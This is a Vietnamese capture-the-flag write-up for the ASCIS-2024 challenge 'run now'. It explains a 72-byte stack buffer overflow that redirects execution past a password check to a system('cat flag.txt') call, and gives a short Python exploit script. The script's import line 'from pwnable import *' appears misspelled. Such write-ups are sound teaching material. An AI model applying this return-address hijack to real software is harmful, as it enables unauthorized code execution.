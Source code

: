 # [ASCIS-2024] run now
<p>Chương trình cho một menu gồm 4 lựa chọn. Trong lựa chọn số 1, đọc tối đa 127 byte vào s. Biến s có kích thước 127 byte nên chưa có buffer overflow ở đoạn này. Sau đó, truyền tham số s vào hàm quantum_entangle.</p>

![alt text](/thanhlai/post/pwnable/image/post9/image.png)

<p>Trong hàm quantum_entangle, copy nội dung a1 vào dest. Vì dest chỉ chứa 64 byte < 128 byte -> Buffer overflow -> Cần đệm 72 byte (64 của dest + 8 của rbp) để tới RIP.</p>

![alt text](/thanhlai/post/pwnable/image/post9/image-1.png)

<p>Ngoài ra còn có hàm secret_lab để đọc nội dung flag -> Mục tiêu: kiểm soát giá trị RIP trên stack để trỏ về hàm secret_lab. Ở đây, ta có thể đi tới thẳng tới địa chỉ chuẩn bị thực thi hàm system để bỏ qua việc nhập password.</p>

![alt text](/thanhlai/post/pwnable/image/post9/image-2.png)

<p>Bắt đầu từ địa chỉ main+120, lệnh "cat flag.txt" bắt được lấy ra và đưa vào thanh ghi rdi để set tham số cho hàm system.</p>

![alt text](/thanhlai/post/pwnable/image/post9/image-3.png)

<p>Script exploit:</p>

```
from pwnable import *

p = process('./chall')
elf = ELF('./chall')

secret_lab = p64(elf.symbols['secret_lab'] + 120)

payload = b'a' * 72
payload += secret_lab

p.sendlineafter(b'Enter your choice: ', b'1')
p.sendlineafter(b'Enter quantum coordinates: ', payload)

p.interactive()
```

<p>Chạy script và lấy được flag thành công.</p>

![alt text](/thanhlai/post/pwnable/image/post9/image-4.png)


